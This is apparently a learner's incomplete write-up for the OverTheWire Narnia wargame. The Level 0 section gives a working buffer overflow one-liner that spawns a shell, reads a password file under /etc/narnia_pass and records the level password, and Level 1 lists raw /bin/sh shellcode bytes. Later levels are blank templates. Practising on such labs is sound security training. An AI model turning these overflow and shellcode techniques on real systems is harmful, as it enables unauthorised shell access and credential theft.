 ## What we learned

- bufferoverflow with `scanf`: we can overwrite the stack if there is 
  discrepencies between array length and input (level0)
- we can find shellcode at [exploit-db](https://www.exploit-db.com/shellcodes/50751)


### Level 0

Flag: `narnia0`


%% --------------------------------------------------- 

### Level 0 -> Level 1

Goal: Buffer overflow with scanf


```
>>> ssh narnia0@narnia.labs.overthewire.org -p 2226

1. check what files does
>>> cat narnia0.c

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}

scanf takes 24 bytes, but buffer only stores 20 of them, so we can overwrite 
4 of them


2. buffer overflow
>>> (python2 -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0

Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
eaa6AjYMBB



```

Flag: `eaa6AjYMBB`


%% --------------------------------------------------- 

### Level 1 -> Level 2

Goal: Environment Exploit by setting shell code as EGG environment variable


```
>>> ssh narnia1@narnia.labs.overthewire.org -p 2226

shellcode used: "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80";
"\x25\xa4\xff\xfd"


```

Flag: ``

%% --------------------------------------------------- 

### Level 2 -> Level 3

Goal: 


```
>>> ssh narnia2@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 3 -> Level 4

Goal: 


```
>>> ssh narnia3@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 4 -> Level 5

Goal: 


```
>>> ssh narnia4@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 5 -> Level 6

Goal: 


```
>>> ssh narnia5@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 6 -> Level 7

Goal: 


```
>>> ssh narnia6@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 7 -> Level 8

Goal: 


```
>>> ssh narnia7@narnia.labs.overthewire.org -p 2226

```

Flag: ``


